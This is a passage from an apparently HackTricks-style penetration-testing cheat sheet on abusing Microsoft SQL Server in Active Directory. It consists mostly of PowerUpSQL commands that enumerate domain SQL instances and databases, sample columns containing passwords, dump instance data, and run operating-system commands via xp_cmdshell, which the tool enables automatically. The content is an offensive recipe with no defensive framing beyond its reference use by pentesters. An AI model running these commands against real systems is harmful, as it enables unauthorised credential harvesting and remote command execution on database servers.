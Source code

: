 ### [MSSQL Basic Abuse](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/abusing-ad-mssql.html#mssql-basic-abuse) <a href="#mssql-basic-abuse" id="mssql-basic-abuse"></a>

#### [Access DB](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/abusing-ad-mssql.html#access-db) <a href="#access-db" id="access-db"></a>

```bash
# List databases
Get-SQLInstanceDomain | Get-SQLDatabase

# List tables in a DB you can read
Get-SQLInstanceDomain | Get-SQLTable -DatabaseName DBName

# List columns in a table
Get-SQLInstanceDomain | Get-SQLColumn -DatabaseName DBName -TableName TableName

# Get some sample data from a column in a table (columns username & passwor din the example)
Get-SQLInstanceDomain | GetSQLColumnSampleData -Keywords "username,password" -Verbose -SampleSize 10

#Perform a SQL query
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select @@servername"

#Dump an instance (a lot of CVSs generated in current dir)
Invoke-SQLDumpInfo -Verbose -Instance "dcorp-mssql"

# Search keywords in columns trying to access the MSSQL DBs
## This won't use trusted SQL links
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "password" -SampleSize 5 | select instance, database, column, sample | ft -autosize
```

#### [MSSQL RCE](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/abusing-ad-mssql.html#mssql-rce) <a href="#mssql-rce" id="mssql-rce"></a>

It might be also possible to **execute commands** inside the MSSQL host

```bash
Invoke-SQLOSCmd -Instance "srv.sub.domain.local,1433" -Command "whoami" -RawResults
# Invoke-SQLOSCmd automatically checks if xp_cmdshell is enable and enables it if necessary
```

Check in the page mentioned in the **following section how to do this manually.**

#### [MSSQL Basic Hacking Tricks](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/abusing-ad-mssql.html#mssql-basic-hacking-tricks) <a href="#mssql-basic-hacking-tricks" id="mssql-basic-hacking-tricks"></a>
